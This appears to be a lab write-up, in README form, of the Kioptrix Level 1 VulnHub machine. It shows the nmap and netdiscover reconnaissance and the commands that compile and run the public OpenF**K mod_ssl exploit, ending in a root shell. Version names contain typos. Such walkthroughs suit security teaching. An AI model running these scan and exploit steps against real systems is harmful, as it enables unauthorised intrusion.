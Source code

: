 # Kiotrix Level 1
### Setup:
1. Download the Kioptrix VM from [Kioptrix level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).
2. Use RAR to extract the compressed file.
3. Launch VMware player and select the "Kioptrix level 1.vmx" file.(since Kipotrix uses DHCP, I used Bridged Networking)
4. Create a Kioptrix_1 directory within root's home directory, on the system.
### Information Gathering:
1. We will scan our network, so in terminal type netdiscover(is a ARP scanner).
![1_0](1_0.png)
2. So the ip of --ip-- will be our Kioptrix machine. We will check for open ports and running services on the VM.
   ```bash
   nmap -sS -A -n [ip]
   ```
   We can see that we have TCP/22 Open(SSH), TCP/80 Open(HTTP) which is running in Apache version 1.3.20 and Apache is also running OpenSSL 2.8.4.
3. In researching OpenSSL 2.8.4, we came across the OpenSSL [OpenF**K](https://github.com/heltonWernik/OpenLuck) exploit.
### Exploit
1. Let's Download the exploit to your kali machine.
2. Install ssl-dev library
   ```bash
   apt-get install libssl-dev
   ``` 
3. Compile 
   ```bash
   gcc -o OpenFuck OpenFuck.c -lcrypto
   ```
4. Running the Exploit 
   ```bash
   ./OpenFuck
   ./OpenFuck 0x6b [Target Ip] [port] -c 40
   ```
5. Got a Root Shell.
### Closing:
From this VM we learned about basics in tool usage and exploitation.

## Thanks For Reading!